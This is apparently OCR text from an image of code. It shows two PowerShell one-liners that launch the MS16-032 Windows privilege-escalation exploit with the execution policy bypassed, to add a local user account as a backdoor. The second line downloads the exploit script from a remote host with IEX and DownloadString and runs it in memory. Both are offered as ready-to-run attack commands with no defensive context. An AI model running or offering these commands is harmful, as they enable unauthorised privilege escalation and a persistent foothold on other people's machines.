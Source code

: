powershell.exe -exec bypass -Command "& {Import-Module C:\windows\temp\Invoke-MS16-032.ps1;Invoke-MS16-032 -Application cmd.exe -Commandline '/c net user 1 1 / add'}" > C:\windows\temp\Invoke-MS16-032.log

OR

powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://sourcegraph.com/github.com/AA8j/PowerShell@main/-/raw/%E6%8F%90%E6%9D%83/MS16-032/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -Commandline '/c net user 1 1 / add'" > C:\windows\temp\Invoke-MS16-032.log

